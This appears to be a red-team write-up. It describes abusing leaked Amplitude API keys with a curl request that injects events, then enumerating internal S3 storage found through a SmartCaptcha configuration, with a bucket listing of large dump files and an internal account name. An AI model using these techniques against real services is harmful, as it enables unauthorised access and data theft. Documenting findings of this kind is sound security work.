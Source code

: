 
## 🚀 Exploitation Phase 1: API Validation & Abuse

### Amplitude Analytics Compromise

**Finding:** Dual API key architecture discovered
- `AMPLITUDE_API_KEY` - Server-side data export
- `AMPLITUDE_AGENT_API_KEY` - Client-side event injection

```bash
# HackTeam.red Custom Exploitation
curl -X POST "https://api2.amplitude.com/2/httpapi" \
     -H "Content-Type: application/json" \
     -d '{
       "api_key": "f588db0a4d77--------------------",
       "events": [{
         "user_id": "recon_agent",
         "event_type": "session_extract"
       }]
     }'

# Result: {"code":200,"events_ingested":1} ✅ CONFIRMED ACCESS
```

**Impact:** Direct ability to inject tracking events and potentially extract user behavioral patterns.

---

## 🔥 Critical Discovery: S3 Infrastructure Exposure

### SmartCaptcha Domain Enumeration
Advanced analysis revealed internal infrastructure through Yandex SmartCaptcha configuration:

```
https://smartcaptcha.yandexcloud.net/backend.636bb879d1085041b.html
?sitekey=ysc1_BrgRYcMK4mtVLRhi-------------------------------------
&host=terminal.andromeda.lab
```

### 💎 The Golden Discovery: Internal S3 Storage with Perforator tool

Our reconnaissance revealed critical infrastructure details:
- **Domain:** `buckets.cloud.venus.local`
- **Architecture:** S3-compatible object storage
- **Access Level:** Public enumeration possible

## 🛠️ HackTeam.red Custom S3 Enumeration Framework

We deployed our proprietary S3 enumeration framework, discovering:

```xml
<ListBucketResult>
<Name>logs</Name>
<Contents>
  <Key>dump.BZ</Key>
  <Size>2726426112</Size>
  <Owner>
    <DisplayName>user1234@soc.venus.local</DisplayName>
  </Owner>
</Contents>
<Contents>
  <Key>snap.pax</Key>
  <Size>22155776000</Size>
```